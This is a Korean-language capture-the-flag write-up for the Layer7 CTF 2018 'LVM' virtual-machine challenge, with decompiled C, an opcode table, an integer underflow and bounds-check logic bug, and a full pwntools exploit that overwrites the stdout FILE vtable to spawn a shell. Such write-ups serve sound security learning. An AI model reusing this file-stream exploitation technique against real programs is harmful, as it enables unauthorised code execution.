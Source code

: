 ```yaml
---
title: Layer7 CTF 2018 - LVM
date: 2018-09-21 23:19:53
categories:
- VM
- CTF write up
tags:
- File Stream Oriented Programming
- Intger Underflow
---
```


```c
void __usercall __noreturn main(__int64 a1@<rdi>, char **a2@<rsi>, char **a3@<rdx>, _QWORD *a4@<r12>){
  _QWORD *addr; // rbx
  signed int v5; // er8
  addr = init_calloc();
  init_p();
  if ( !input(addr) )
    exit(-1);
  vm(addr, v5, a4);
  start(addr);}
```

드디어 풀었다... 대회때 풀진 않았고 VM문제 풀어 보라는 NextLine 님의 말을 따라.. 풀었다.

머리가 vm이 된 것 같은 기분을 경험했다.. 솔버 2명일 때 부터 알아봤어야 했는데..

기법을 새로 배운건 없었지만 생각을 많이 할 수 있어서 좋았다. VM문제도 처음 풀어봐서 좋았고!

립찔이에게 최적화 레벨 3은 너무 힘들었다... LABEL과 goto 문의 향연.. 



| operator  | op1 flag | op1 value      | op2 flag | op2 value                 |
| --------- | -------- | -------------- | -------- | ------------------------- |
| 0x1-0x7,9 | 0x0      | op1 = reg[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
|           | 0x2      | op1 = mem[idx] | 0x0      | op2 = reg[idx], pflag = 1 |
|           |          |                | 0x1      | op2 = idx, pflag = 0      |
|           |          |                | 0x2      | op2 = mem[idx], pflag =1  |
| 0x0,8,a   | 0x1      | op1 = reg[idx] |          |                           |

if pflag set) *op1 = *op1 [operator] *op2

unset) *op1 = *op1 [operator] op2

op2 flag 위치와 opcode 길이는 op1 flag 마다 바뀐다.



```c
        if ( mem_idx > 0xFFF )                  // integer underflow
        {
          puts("Invalid memory.");
          exit(-3);
        }
		op1 = (cpu[18] + mem_idx);
```

여기서 Integer Underflow가 터진다. 이거 찾는 게 힘들었다..ㅠㅠ



```c
          if ( mem_idx_2 > 4095 )
          {
            puts("Invalid memory.");
            flag = 1;
          }
```

여기선 로직 버그가 있다. 딱봐도 수상해보인다.



```python
from pwn import *

w = process("./lvm")

offset = 0x3c56a3 - 0xf02a4

# set op2=0x602010 
payload = "\x09\x00\x03\x01"+p64(0x602010)

# set cpu[18] = *0x602010 using memory logic bug, integer underflow
payload += "\x09\x02\xe0\xef\xff\xff\x02".ljust(11,"\xff")

# change vtable with operator
payload += "\x02\x02\x08\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x10\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x18\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x20\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x28\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x30\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x38\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x40\x00\x00\x00\x01"+p64(offset)
payload += "\x02\x02\x48\x00\x00\x00\x01"+p64(offset+1)

payload += "\x01\x02\xd8\x00\x00\x00\x01"+p64(0x1f40-0x8)

w.sendline(payload)
w.interactive()

```

다른 VM 문제들 보면 함수로 이쁘게 짜던데... 그러면 더 더러워 질 것 같아서 그냥 썼다.

로직 버그 쓰기위해 op2 를 써놓고 로직버그랑 인티저 언더플로우 이용해서 cpu[18]에 stdout 주소를 써준다.

이러면 stdout file struct 에 값을 쓸 수 있게 되는데, 여기서 어딘가의 libc 주소가 8개쯤 써있다.

여기에 연산 이용해서 one_shot offset 으로 맞춰준다.

vtable을 이 주소로 덮어주면 쉘이 따인다. 짜잔

vtable 말고 exit handler 나 dl open hook을 덮으면 된다는 데 그건 따로 포스팅해야지
